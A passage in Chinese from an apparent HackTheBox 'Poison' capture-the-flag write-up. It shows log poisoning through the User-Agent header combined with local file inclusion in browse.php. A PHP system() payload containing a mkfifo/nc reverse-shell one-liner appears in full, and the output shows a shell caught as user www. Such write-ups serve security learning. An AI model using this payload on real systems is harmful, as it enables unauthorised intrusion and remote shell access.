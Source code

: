 ```
apache版本是2.4.29，符合第一条，第2条我们已经证明存在。

现在只剩第三条，没有发现上传点。那么 只能查看web server日志，经过枚举，确认web server日志在```/var/log/httpd-access.log```

我们分析一下一条日志会记录哪些内容
```
"Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0" 10.10.14.3 - - [30/Dec/2021:03:48:50 +0100] "GET /browse.php?file=../../../../../var/log/httpd-access.log HTTP/1.1" 200 3208001 "-
```

记录了浏览器引擎，来源IP，时间，用户输入，http版本等

经过测试，如果直接修改用户输入会被过滤，但是浏览器引擎是可以注入的

我们使用以下playload

```<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 4444 >/tmp/f'); ?>```

burpsuite请求头为：
```
GET /browse.php?file=%3C%3Fphp+echo+%27hi%27%3B+%3F%3E HTTP/1.1

Host: 10.10.10.84

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 4444 >/tmp/f'); ?> Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://10.10.10.84/

Upgrade-Insecure-Requests: 1
```

然后再打开```http://10.10.10.84/browse.php?file=../../../../../var/log/httpd-access.log```

拿到webshell
```
┌──(root💀kali)-[~/htb/Poison]
└─# nc -lnvp 4444                                                                                               1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.84] 16668
sh: can't access tty; job control turned off
$ id
uid=80(www) gid=80(www) groups=80(www)
$ whoami
www
